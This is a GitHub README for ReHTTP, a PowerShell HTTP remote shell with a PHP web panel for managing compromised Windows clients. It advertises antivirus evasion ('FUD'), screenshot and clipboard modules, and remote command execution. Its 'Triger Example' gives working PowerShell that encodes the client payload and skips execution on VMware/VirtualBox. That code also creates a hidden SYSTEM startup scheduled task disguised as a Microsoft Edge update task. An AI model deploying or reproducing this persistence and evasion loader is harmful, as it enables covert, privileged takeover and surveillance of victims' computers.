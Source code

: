 




﻿
<h3 align="center"><img src="https://s28.picofile.com/file/8463031418/favicon.png" alt="logo" height="250px"></h3>
<p align="center">
    <b>ReHTTP</b><br>
    </p>
<hr>
<p align="center">
  <b> Simple Powershell Http shell With WEB UI </b>
    </p>
<p align="center">
  <a href="https://php.net">
    <img src="https://img.shields.io/badge/php-8.0.7-green" alt="php">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/platform-Windows-red">
  </a>
    <a href="https://www.codefactor.io/repository/github/jxroot/ReHTTP">  <img src="https://www.codefactor.io/repository/github/jxroot/ReHTTP/badge" alt="CodeFactor" /> </a>
   

   

  
</p>
<p><img src="https://s28.picofile.com/file/8463024792/main.png" alt="enter image description here"></p>
<h2 id="shell">🤟 Main</h2>

<ul>
<li>Client list</li>
<li>System Info</li>
<li>Client Status</li>
<li>Set Label</li>
<li>Remove Client</li>
<li>Module</li>
<li>Variable</li>
<li>Event</li>
</ul>
<h2 id="shell">💎 Shell</h2>
<p><img src="https://s29.picofile.com/file/8463025868/shell.png" alt="shell tab demo">
<br></p>
<b>Run Powershell Command And You Can Add Command in Scheduled  </b>
<ul>
<li>Shell Access</li>
</ul>
<h2 id="Module">📟 Module</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463025900/modules.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026284/screenshot.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026126/edi.png" alt="enter image description here"></p>
<b>Run Powershell Code as Function Or Module </b></p>
<pre>note : for use template edit $SERVER_URL in Code</pre>
<ul>
<li>Add Module</li>
<li>Edit Module</li>
<li>Delete Module</li>
--------------templates-----------------------
<li>Beep Sound</li>
<li>MessageBox</li>
<li>Download Current Background</li>
<li>Get System IdleTime</li>
<li>Get System LastInput</li>
<li>Get Public IP</li>
<li>Get-Clipboard</li>
<li>Set-Clipboard</li>
<li>Screenshot</li>
<li>OpenLink</li>
</ul>
<h2 id="Module">🧮 Variable</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026176/variable.png" alt="enter image description here"></p>

<p align="center"><img src="https://s29.picofile.com/file/8463026184/variables.png" alt="enter image description here"></p>
<b>Run PHP Code as Variable And Use In PowerShell Script</b></p>
<ul>
<li>Add Variable</li>
<li>Edit Variable</li>
<li>Delete Variable</li>
--------------templates-----------------------
<li>random</li>
</ul>
<h2 id="History">📜 History</h2>
<p><img src="https://s29.picofile.com/file/8463026276/history.png" alt="enter image description here"></p>
<b>if Your Client Break You Can Remove Last Command /:</b></p>
<ul>
<li>Show Command And Module</li>
<li>Remove Command</li>
<li>Re Execute Command</li>
</ul>
<h2 id="History">🪄 Event</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026318/event.png" alt="enter image description here"></p>
<b>Run Custom Command </b></p>
<ul>
<li>First Connection ( Init )</li>
<li>Every Connection ( UP )</li>
<li>Destroy ( Destroy )</li>
</ul>
<h2 id="dependency">🛠 Dependency</h2>
<ul>
<li>PHP 5.4 And Higher</li>
<li>Mysql</li>
</ul>
<h2 id="Antivirus">🦠 Antivirus</h2>
<p><img src="https://s29.picofile.com/file/8463026484/fD0Idrg5jVZx.pnل" alt="enter image description here"></p>
<b>FUD Scan Time + Run Time :)</b>
<h2 id="installation-and-usage">💿 Installation And Usage</h2>
<p>1- Edit $SERVER_URL in Client.ps1</p>
<p>2- Run ps1 script</p>
<p>3- Create Database </p>
<pre class=" language-bash"><code class="prism  language-bash"><span class="token function">git</span> clone https://github.com/jxroot/ReHTTP.git
<span class="token function">cd</span> ReHTTP/Server/
php -S 127.0.0.1:8000 
</code></pre>
<p align="center"><img src="https://s29.picofile.com/file/8463060076/setup.png" alt="enter image description here"></p>
Triger Example For Client
<pre class=" language-bash"><code class="prism  language-bash">
$s = Get-Content client.ps1 | Out-String
$j = [PSCustomObject]@{
  "Script" = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($s))
} | ConvertTo-Json -Compress
$oneline = "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(('" + $j + "' | ConvertFrom-Json).Script)) | iex"
$c = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($oneline))
$template = '
$VM=get-wmiobject win32_computersystem |select -ExpandProperty Model
if(($VM -NotLike "*VMware*") -and ($VM -NotLike "VirtualBox")){
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument " -NoLogo -NonInteractive -NoProfile -ExecutionPolicy Bypass -Encoded  '+ $c + '" 
$trigger = New-ScheduledTaskTrigger -AtStartup 
$settings = New-ScheduledTaskSettingsSet -Hidden
$user = New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest  
Register-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" -TaskPath "\"  -Action $action -Settings $settings -Trigger $trigger -Principal $user
Start-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" 
}

'
New-Item -Path . -Name evil.ps1 -Value $template -Force

</code></pre>
<h2 id="operating-systems-tested">💻 Operating Systems Tested</h2>
<ul>
<li>Windows 7</li>
<li>Windows 10</li>
<li>Windows 11</li>
</ul>
<h2 id="youtube-tutorials">📹 YouTube Tutorials</h2>
<p><a href="https://youtu.be/U9xNnd3XtMc">How Install And Usage ReHTTP</a></p>
<h2 id="Doante">✌️ Doante Me:</h2>
<ul>
<li>Ethereum (ETH)   : 0xfeCB5B86b0694FE943472c11183455924899e618 -  ETH Network</li>
<li>Bitcoin  (BTC)   : bc1qnye95tuhvzzhuaywzem7wgp84uz5z9x3pqzadm </li>
<li>Tether   (USDT)  : TAaN7FgmD1HQYwJRgdYsGWB8Uhunj6FGWh - TRC20</li>
<li>Toncoin  (TON)   : UQCcdnF94j0Uqxyt7gVHQkx7oRwzZTQFyJ7fhXhM2Sq_SFGS </li>


</ul>
<h2 id="next-update">🔱 Next Update</h2>
<ul>
<li>fix  ui bugs</li>
<li>clean code </li>
<li>add event for distroy</li>
<li>add multi exec command for client</li>
<li>upload and  download module</li>
<li>async command</li>
<li>scheduled task ( Date )</li>
<li>background task </li>
<li>ui for system information and manage like hiorbit</li>
<li>add file manager </li>
<li>security (xss,csrf,rce,login page,...)</li>
</ul>
<h2 id="contact">📧 Contact</h2>
<p >
<a href="https://t.me/amajax"><img title="Telegram" src="https://img.shields.io/badge/Telegram-black?style=for-the-badge&logo=Telegram"></a>
<a href="https://www.youtube.com/channel/UC0-QcOXgzRgSfcE3zerwu9w/?sub_confirmation=1"><img title="Youtube" src="https://img.shields.io/badge/Youtube-red?style=for-the-badge&logo=Youtube"></a>
<a href="https://www.instagram.com/sectoolfa"><img title="Instagram" src="https://img.shields.io/badge/Instagram-white?style=for-the-badge&logo=Instagram"></a>


